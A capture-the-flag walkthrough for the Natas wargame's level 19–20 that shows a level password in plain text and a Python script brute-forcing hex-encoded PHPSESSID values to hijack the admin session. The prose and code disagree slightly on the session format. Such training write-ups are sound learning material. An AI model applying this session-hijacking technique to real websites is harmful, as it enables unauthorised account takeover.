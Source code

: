 ![/assets/images/natas/Untitled%202.png](/assets/images/natas/Untitled%202.png)

Username: natas19
Password: 4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs

### lvl 19-20

it is similar to previous one but the session id is not sequential.

while logging with admin:admin phpsessionid = 3332392d61646d696e when hexdecoded gives 329-admin

so the phpsession id for natas20 will be (0-640)-natas20

```python
import requests
url="http://natas19.natas.labs.overthewire.org/index.php?debug=1" 
for i in range(31,40):
    for j in range(30,40):
        for k in range(30,40):
            username="natas20"
            password = "password"
            data = {'username':username,'password':password}
            cookies = {
                       'PHPSESSID' :str(i)+str(j)+str(k)+'2d61646d696e'
                        }
            print(cookies['PHPSESSID'])
            r = requests.post(url,data=data,cookies=cookies,headers={'Authorization': 'Basic bmF0YXMxOTo0SXdJcmVrY3VabEE5T3NqT2tvVXR3VTZsaG9rQ1BZcw=='})
            if "Login as an admin to retrieve credentials"not in r.text:                                                                                                                            
                print(r.text)
                exit()
```
